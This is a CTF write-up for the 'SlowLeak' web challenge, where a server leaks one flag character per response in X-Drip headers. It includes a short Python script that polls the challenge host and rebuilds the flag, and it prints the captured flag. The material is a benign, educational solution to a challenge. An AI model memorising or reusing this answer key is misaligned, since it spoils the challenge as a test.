

# CTF Writeup: SlowLeak

**Platform:** SecLeaf Q4 Operations CTF 2026   
**Category:** Web   

## 1. Challenge Overview

The challenge involved investigating a website and finding hidden information in its HTTP response headers.

After inspecting the website using browser Developer Tools, I noticed two interesting headers:

- `X-Drip`
- `X-Drip-Serial`

The `X-Drip` header returned one character of the flag, while `X-Drip-Serial` indicated its position.

The characters appeared in random order, so I needed to collect them and arrange them correctly.

## 2. Initial Investigation

I opened the challenge website and inspected its network traffic using Chrome Developer Tools.

After refreshing the page, I selected the main document request and checked its response headers.

I noticed that the server was leaking individual flag characters through custom HTTP headers.

**Screenshot 1: HTTP Response Headers**



## 3. Understanding the Headers

The two important headers were:

```http
X-Drip: t
X-Drip-Serial: 36/40
```

Here:

- `X-Drip` contains the leaked character.
- `X-Drip-Serial` contains its position.
- `1/40` means the character belongs at position 1 out of 40.

I also noticed that the `work_order` cookie needed to be maintained between requests. Otherwise, the collection session could reset.

## 4. Exploitation Using Python

Instead of collecting all 40 characters manually, I used a small Python script.

First, I installed the required library:

```bash
pip install requests
```

Then I created a file named `solve.py`.

**Python Exploit:**

```python
import requests

url = "http://web.secleaf.xyz:8080/"
s = requests.Session()

flag = {}

print("[*] Collecting flag characters...")

while len(flag) < 40:
    r = s.get(url)

    char = r.headers.get("X-Drip")
    serial = r.headers.get("X-Drip-Serial")

    if char and serial:
        pos = int(serial.split("/")[0])

        if pos not in flag:
            flag[pos] = char
            print(f"[+] {serial} : {char}")

print("\n[+] FLAG:")
print("".join(flag[i] for i in range(1, 41)))

s.close()
```

The script uses `requests.Session()` to maintain cookies across requests.

It collects each character, stores it using its serial number, and reconstructs the flag once all 40 positions are collected.

**Screenshot 2: Python Script in VS Code**


## 5. Running the Exploit

I executed the script from the VS Code terminal:

```bash
python solve.py
```

The script repeatedly sent HTTP requests and collected the leaked characters until all 40 unique positions were found.

## 6. Flag Captured

After collecting all the characters and arranging them according to their serial numbers, I successfully reconstructed the flag.

**Flag:**

```text
SecLeaf{h34d3r5_l34k_0n3_dr1p_4t_4_t1m3}
```

## 7. What I Learned

This challenge helped me understand:

- How to inspect HTTP response headers.
- How information can leak through custom headers.
- How session cookies maintain state between requests.
- How to automate HTTP requests using Python.
- How to reconstruct information from multiple responses.

## 8. Conclusion

This was a good hands-on exercise in understanding HTTP headers and information disclosure vulnerabilities.

The interesting part was that the server exposed only one character per response, but repeated requests made it possible to recover the complete flag.

**Challenge successfully solved!** 🔐